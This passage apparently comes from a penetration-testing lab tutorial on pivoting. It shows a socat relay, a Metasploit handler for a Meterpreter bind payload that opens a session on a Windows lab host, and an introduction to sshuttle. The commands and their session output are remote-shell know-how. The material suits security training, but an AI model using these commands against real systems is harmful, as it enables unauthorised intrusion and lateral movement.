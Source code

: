 
We can start a `socat bind shell` listener, which listens on port `8080` and forwards packets to Windows server `8443`.

#### Starting Socat Bind Shell Listener

    ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
    

Finally, we can start a Metasploit bind handler. This bind handler can be configured to connect to our socat's listener on port 8080 (Ubuntu server)

#### Configuring & Starting the Bind multi/handler

    msf6 > use exploit/multi/handler
    
    [*] Using configured payload generic/shell_reverse_tcp
    msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
    payload => windows/x64/meterpreter/bind_tcp
    msf6 exploit(multi/handler) > set RHOST 10.129.202.64
    RHOST => 10.129.202.64
    msf6 exploit(multi/handler) > set LPORT 8080
    LPORT => 8080
    msf6 exploit(multi/handler) > run
    
    [*] Started bind TCP handler against 10.129.202.64:8080
    

We can see a bind handler connected to a stage request pivoted via a socat listener upon executing the payload on a Windows target.

#### Establishing Meterpreter Session

    [*] Sending stage (200262 bytes) to 10.129.202.64
    [*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500
    
    meterpreter > getuid
    Server username: INLANEFREIGHT\victor


## SSH Pivoting with Sshuttle

[Sshuttle](https://github.com/sshuttle/sshuttle) is another tool written in Python which removes the need to configure proxychains. However, this tool only works for pivoting over SSH and does not provide other options for pivoting over TOR or HTTPS proxy servers. `Sshuttle` can be extremely useful for automating the execution of iptables and adding pivot rules for the remote host. We can configure the Ubuntu server as a pivot point and route all of Nmap's network traffic with sshuttle using the example later in this section.

One interesting usage of sshuttle is that we don't need to use proxychains to connect to the remote hosts. Let's install sshuttle via our Ubuntu pivot host and configure it to connect to the Windows host via RDP.

To use sshuttle, we specify the option `-r` to connect to the remote machine with a username and password. Then we need to include the network or IP we want to route through the pivot host, in our case, is the network 172.16.5.0/23.
